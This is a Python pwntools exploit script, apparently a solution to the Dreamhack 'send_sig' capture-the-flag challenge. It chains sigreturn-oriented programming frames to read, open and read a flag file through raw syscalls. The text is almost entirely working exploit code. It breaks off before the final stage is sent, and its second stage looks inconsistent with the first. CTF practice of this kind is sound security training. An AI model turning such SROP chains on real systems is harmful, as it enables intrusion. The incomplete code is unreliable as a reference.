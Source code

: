 ```python
from pwn import *

context.arch = 'x86_64'

p = remote('host8.dreamhack.games', 8443)
e = ELF('./send_sig')

read_got = e.got['read']

pop_rax = 0x4010ae
syscall = 0x4010b0

bss = e.bss()

# read(0, bss, 0x1000)
# syscall number : 0
frame1 = SigreturnFrame()
frame1.rax = 0
frame1.rsi = bss
frame1.rdx = 0x1000
frame1.rdi = 0
frame1.rip = syscall
frame1.rsp = bss

payload = b'A' * 16
payload += p64(pop_rax)
payload += p64(15)
payload += p64(syscall)
payload += bytes(frame1)

p.recvuntil(b'Signal:')
p.sendline(payload)

# open(bss, 0)
# syscall number : ２
frame2 = SigreturnFrame()
frame2.rax = 2
frame2.rsi = 0
frame2.rdi = bss
frame2.rip = syscall
frame2.rsp = bss + 0x500

rop2 = p64(pop_rax)
rop2 += p64(15)
rop2 += bytes(frame2)
rop2 += b"/home/send_sig/flag.txt\x00"

p.sendline(rop2)

# read(3, bss+0x500, 0x40)
# syscall number : 0
frame3 = SigreturnFrame()
frame3.rax = 0
frame3.rsi = bss+0x500
frame3.rdx = 0x40
frame3.rdi = 3
frame3.rip = syscall
frame3.rsp = bss + 0x800

rop3 = p64(pop_rax)
rop3 += p64(15)
rop3 += bytes(frame3)

```